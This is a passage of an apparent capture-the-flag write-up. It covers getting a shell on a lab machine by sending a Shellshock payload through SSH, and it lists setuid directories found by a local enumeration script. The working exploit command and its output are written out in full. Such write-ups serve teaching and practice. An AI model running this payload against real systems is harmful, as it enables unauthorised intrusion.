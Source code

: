### SSH Shellshock

Attempting to login using the discovered key failed, with a messaging saying <code>TRY HARDER LOL!</code>. 

![Vulcan Rage Quit](\img\vulcan-ragequit.gif)

I tried to feed it commands by tagging them on the end, the connection hung then dropped with no message. 

I googled some shellshock options and managed to spawn a shell with: 

<code>ssh -i noob noob@192.168.145.129 '() { :;}; /bin/bash'</code>

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">shellshock ssh</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">ssh -i noob noob@192.168.145.129 '() { :;}; /bin/bash'</span></p>
          <span class="output"><br></span>
          <span class="output">id<br></span>
          <span class="output">uid=1002(noob) gid=1002(noob) groups=1002(noob)<br></span>
        </p>
      </div>
    </div>
</section>


##Local Enumeration

Transfered my local enumeration script to the target, disclosing the following odd sticky bit files: 

{% highlight bash %}
#########################################
## Sticky Bit                          ##
#########################################

drwsr-xr-x 3 root root 4096 Dec 29 19:00 /nothing_to_see_here
drwsr-xr-x 5 root root 4096 Oct  4 22:36 /nothing_to_see_here/choose_wisely
drwsr-xr-x 2 root root 4096 Oct  5 21:19 /nothing_to_see_here/choose_wisely/door2
drwsr-xr-x 2 root root 4096 Oct  5 21:18 /nothing_to_see_here/choose_wisely/door3
drwsr-xr-x 2 root root 4096 Oct  4 22:19 /nothing_to_see_here/choose_wisely/door1
{% endhighlight %}
